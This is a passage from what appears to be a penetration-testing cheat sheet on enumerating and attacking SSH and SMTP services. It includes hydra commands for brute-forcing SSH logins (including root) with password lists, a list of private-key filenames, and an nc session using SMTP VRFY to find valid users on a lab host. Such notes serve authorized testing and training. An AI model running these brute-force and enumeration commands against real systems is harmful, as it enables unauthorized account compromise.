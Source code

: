    2. Bash scripts

      ```bash
      ssh -v -n \
        -o Batchmode=yes \
        -o StrictHostKeyChecking=no \
        -o UserKnownHostsFile=/dev/null \
        DOES_NOT_EXIST@localhost
      ```

      check something like this

      ```bash
      debug1: Authentications that can continue: publickey,password,keyboard-interactive
      ```

2. Vulnerable Version - 7.2p1

3. Configuration Files

   ```
   ssh_config
   sshd_config
   authorized_keys
   ssh_known_hosts
   .shosts
   ```

4. Algorithm

   ```
   id_rsa
   id_ecdsa
   id_ed25519
   id_dsa
   id_ed25519_sk
   id_ecdsa_sk
   ```

5. Bruteforce 

   ```
   hydra -v -V -l root -P pass.txt $ip ssh
   hydra -L user.txt -P pass.txt $ip ssh
   ```



#### Port 25 (SMTP)

- verify user

  ```
  kali@kali:~$ nc -nv 10.11.1.217 25
  (UNKNOWN) [10.11.1.217] 25 (smtp) open
  220 hotline.localdomain ESMTP Postfix
  VRFY root
  252 2.0.0 root
  VRFY idontexist
  550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
  ^C
  ```
